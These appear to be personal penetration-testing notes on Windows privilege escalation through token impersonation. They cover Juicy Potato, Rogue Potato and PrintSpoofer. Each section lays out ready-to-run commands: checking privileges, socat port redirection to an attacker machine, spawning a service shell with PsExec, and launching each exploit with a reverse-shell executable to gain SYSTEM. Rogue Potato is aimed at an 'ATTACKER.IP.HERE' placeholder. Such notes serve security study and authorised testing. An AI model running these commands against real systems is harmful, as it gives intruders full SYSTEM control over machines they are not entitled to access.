 # token impersination
despite service accounts not being able to log in directly, there are still paths to escalate privileges
- rotten potato: service accounts could intercept a SYSTEM ticket and use it to impersonate SYSTEM user (SeImpersonatePrivilege enabled)
- SeImpersonate/SeAssignPrimaryToken: service accounts are typically configured with these two privileges. they allow the account to impersonate the access tokens of other users (including SYSTEM). any user with these privileges can run the token impersonation exploits.
- juicy potato: expanded on rotten, works in the same way. 
#### juicy potato
check privs of account
```
> whoami /priv
```
if SeImpersonate and SeAssignPrimaryToken:
check CLSID list
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
```
> .\JuicyPotato.exe -l PORT_NOT_IN_USE -p C:\PATH\TO\REVERSE.EXE -t * -c {lookup CLSID for windows version}
```

#### rogue potato
latest potato exploit, more info found on github.
the example below is a proof of concept, in a real engagement you would use this method when you obtain a service shell or a shell with a user who has SeImpersonate or SeAssignToken.
**POC example**:
- setup socat to redirect traffic from port 135 to 9999 on windows VM
```
# sudo socat tcp-listen:135,reuseaddr,fork tcp:WINDOWS.IP:9999
```
- setup listener on port of choice for reverse shell
- spawn a service shell **for POC test**
```
> .\PsExec64.exe /accepteula -i -u "nt authority\local service" C:\PATH\TO\REVERSE.EXE
```
- **run rogue potato**
```
> .\RoguePotato.exe -r ATTACKER.IP.HERE -l 9999 -e "C:\PATH\TO\REVERSE.EXE"
```
if things went right you should get a reverse shell as nt authority\\***system***

#### PrintSpoofer
exploit targeting print spooler service with token impersonation
does not need port forwarding, entire exploit happens on target machine
like rogue potato, you would use this method when you obtain a service shell or a shell with a user who has SeImpersonate or SeAssignToken.
requires visual c++ redist is installed
**POC example**:
```
> .\PrintSpoofer.exe -i -c C:\PATH\TO\REVERSE.EXE
```
